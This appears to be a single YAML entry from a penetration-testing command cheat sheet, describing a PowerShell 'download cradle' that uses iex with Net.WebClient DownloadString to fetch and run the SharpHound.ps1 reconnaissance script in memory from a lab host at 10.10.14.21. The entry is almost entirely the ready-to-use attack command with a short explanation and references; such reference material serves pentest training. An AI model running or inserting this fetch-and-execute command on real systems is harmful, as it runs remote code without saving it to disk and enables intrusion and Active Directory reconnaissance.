 ```yaml
---
description: |
  (New-Object Net.WebClient).DownloadString is a PowerShell command that uses the .NET WebClient class to download and EXECUTE a file from the server without saving the file.

  Command Reference:

  	Location of file: http://10.10.14.21:8999/SharpHound.ps1

command: |
  iex(new-object net.webclient).downloadstring("http://10.10.14.21:8999/SharpHound.ps1")
items:
  - Shell
OS:
  - Windows
attack_types:
  - General
references:
  - https://learn.microsoft.com/de-de/dotnet/api/system.net.webclient.downloadstring?view=net-5.0
  - https://book.hacktricks.xyz/windows-hardening/basic-powershell-for-pentesters
---
```

